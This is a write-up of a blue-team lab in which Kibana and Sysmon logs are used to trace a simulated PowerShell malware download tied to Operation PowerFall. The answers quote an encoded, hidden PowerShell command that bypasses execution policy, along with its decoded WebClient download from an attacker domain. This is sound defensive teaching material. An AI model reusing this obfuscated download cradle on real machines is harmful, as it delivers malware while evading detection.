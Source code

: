 ```yaml
---
title: "findthebad: powerfall-convo"
layout: archive
date:   2020-10-02
tags: findthebad
tags_label: true
---
```


This is log analysis/blue team focused lab. It is an introductory lab for doing log analysis with Kibana. It is the second one in the series.

#### Link:

```
https://github.com/findthebad/powerfall-convo     
```

### Prereqs:

```
sudo apt-get install docker
sudo apt-get install docker-compose        
```

### Setup:

```
git clone https://github.com/findthebad/powerfall-convo
cd powerfall-convo
docker-compose up        
```

*   Go to localhost:5601 to access the Kibana instance.

#### Lab questions:

*   What is the name of the malicious file that has executed?

*   What strain of malware does it appear to be?

*   What does this malware typically do?

*   When was this malware run and by which user on what computer? (Hint: Try pinning a Dashboard filter and viewing it in Discover)

*   What process wrote the malicious file to disk and when?

This lab continues with the use of Kibana for identifying and investigating signs of a compromise (see Model 3). The VT Hunting dashboard has been updated with some new visualizations that should provide you the information you need to get started.

#### Starting the lab:

```
crazyeights@es-base:~/Documents/powerfall-convo$ sudo docker-compose up
```

#### Accessing Kibana:

```
http://localhost:5601
```

#### Lab Questions:

1.  What malicious domain has a process attempted to communicate with?
2.  What were the command line arguments of the process that initiated the communication (Hint: There may be multiple processes, but only one that was "user" initiated)?
3.  What do the arguments do? Can you decode all of them?
4.  Does it appear the command was successful? Why or why not?
5.  When did this process activity start, end, and who was the user on what computer?

Bonus: What advanced persistent threat (APT) has been discussed as being the potential group behind this domain?

#### 1\. What malicious domain has a process attempted to communicate with?

>  `www.static-cdn1.com`

On VirusTotal:
![](/assets/images/pf/pf2.png)


Looked for malicious/suspicious entries using:

```
winlog.event_data.Detections.Hashes.VirusTotal.malicious = 1
or
winlog.event_data.Detections.Hashes.VirusTotal.suspicious = 1      
```

Found this:

```
Dns query:
RuleName: -
UtcTime: 2020-09-05 17:35:07.261
ProcessGuid: {020ea625-cc4a-5f53-4a01-000000000500}
ProcessId: 8088
QueryName: www.static-cdn1.com
QueryStatus: 9003
QueryResults: -
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe     
```

Then looked at the surronding entries found the source:

```
Process Create:
RuleName: -
UtcTime: 2020-09-05 17:35:06.271
ProcessGuid: {020ea625-cc4a-5f53-4a01-000000000500}
ProcessId: 8088
Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
FileVersion: 10.0.18362.1 (WinBuild.160101.0800)
Description: Windows PowerShell
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: PowerShell.EXE
CommandLine: powershell.exe  -WindowStyle hidden -NoExit -ep bypass -nop -encodedCommand //4oAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwB3AHcALgBzAHQAYQB0AGkAYwAtAGMAZABuADEALgBjAG8AbQAvAHUAcABkAGEAdABlAC4AegBpAHAAIgAsACAAIgBDADoAXABVAHMAZQByAHMAXABsAGEAYgAtAGEAZABtAGkAbgBcAEQAZQBzAGsAdABvAHAAXAB1AHAAZABhAHQAZQAuAHoAaQBwACIAKQA=
CurrentDirectory: C:\Users\lab-admin\
User: 22ec4e4c-wsw10\lab-admin
LogonGuid: {020ea625-cc22-5f53-ca23-0d0000000000}
LogonId: 0xD23CA
TerminalSessionId: 2
IntegrityLevel: High
Hashes: MD5=CDA48FC75952AD12D99E526D0B6BF70A,SHA256=908B64B1971A979C7E3E8CE4621945CBA84854CB98D76367B791A6E22B5F6D53,IMPHASH=A7CEFACDDA74B13CD330390769752481
ParentProcessGuid: {020ea625-cc46-5f53-4601-000000000500}
ParentProcessId: 4916
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\windows\system32\cmd.exe"         
```

#### 2\. What were the command line arguments of the process that initiated the communication (Hint: There may be multiple processes, but only one that was "user" initiated)?

```
powershell.exe  -WindowStyle hidden -NoExit -ep bypass -nop -encodedCommand //4oAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwB3AHcALgBzAHQAYQB0AGkAYwAtAGMAZABuADEALgBjAG8AbQAvAHUAcABkAGEAdABlAC4AegBpAHAAIgAsACAAIgBDADoAXABVAHMAZQByAHMAXABsAGEAYgAtAGEAZABtAGkAbgBcAEQAZQBzAGsAdABvAHAAXAB1AHAAZABhAHQAZQAuAHoAaQBwACIAKQA=    
```

*   Goal: Obfuscation and evasion
    
*   Called from cmd.exe
    
*   `-ep bypass` - bypass execution policy
    
*   WindowStyle hidden - Used to prevent PowerShell from displaying a window when it executes code.
    
*   nop - Prevents PowerShell from loading profile scripts, which get executed on launch, so as to avoid potentially unwanted commands or settings.
    
*   EncodedCommand - Accepts a base64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.
    

#### 3\. What do the arguments do? Can you decode all of them?

From b64:

```
ÿþ(.N.e.w.-.O.b.j.e.c.t. .S.y.s.t.e.m...N.e.t...W.e.b.C.l.i.e.n.t.)...D.o.w.n.l.o.a.d.F.i.l.e.(.".h.t.t.p.s.:././.w.w.w...s.t.a.t.i.c.-.c.d.n.1...c.o.m./.u.p.d.a.t.e...z.i.p.".,. .".C.:.\.U.s.e.r.s.\.l.a.b.-.a.d.m.i.n.\.D.e.s.k.t.o.p.\.u.p.d.a.t.e...z.i.p.".).       
```

Fix encoding:

```
(New-Object System.Net.WebClient).DownloadFile("https://www.static-cdn1.com/update.zip", "C:\Users\lab-admin\Desktop\update.zip")
```

CyberChef Recipe:

![](/assets/images/pf/pf3.png)

#### 4\. Does it appear the command was successful? Why or why not?

*   No

*   QueryStatus: 9003 - 'DNS name does not exist', indicated connectivity issues or firewall

#### 5\. When did this process activity start, end, and who was the user on what computer?

```
User: 22ec4e4c-wsw10\lab-admin
Time period: Sep 5, 2020 @ 13:35:06.294 - Sep 5, 2020 @ 13:35:09.066    
```

#### Bonus:

*   Real-life: Operation PowerFall – Threat Actor Leverages Internet Explorer and Windows 10 Zero-Days
    
*   the attackers used a previously unknown full chain that consisted of two zero-day exploits: a remote code execution for Internet Explorer and a privilege escalation exploit for Windows. Researchers were then able to analyze the zero-days further and discovered that the new full chain targeted the latest builds of Windows 10 (build 18262 x64) and Internet Explorer 11. The two exploits are known as CVE-2020-0986 and CVE-2020-1380, respectively.
    
*   APT DarkHotel
    

Finding the Internet Explorer part of the attack:

Filtered by image:

```
timestamp: 	Sep 5, 2020 @ 13:35:29.382
Registry value set:
RuleName: -
EventType: SetValue
UtcTime: 2020-09-05 17:35:29.379
ProcessGuid: {020ea625-cc2c-5f53-1d01-000000000500}
ProcessId: 5696
Image: C:\windows\Explorer.EXE
TargetObject: HKU\S-1-5-21-4239719670-1178245662-2409435206-500\SOFTWARE\Microsoft\Windows\CurrentVersion\Shell Extensions\Cached\{A9249952-F4C6-4BCD-9B44-6A5BA9B5209E} {7F9185B0-CB92-43C5-80A9-92277A4F7B54} 0xFFFF
Details: Binary Data        
```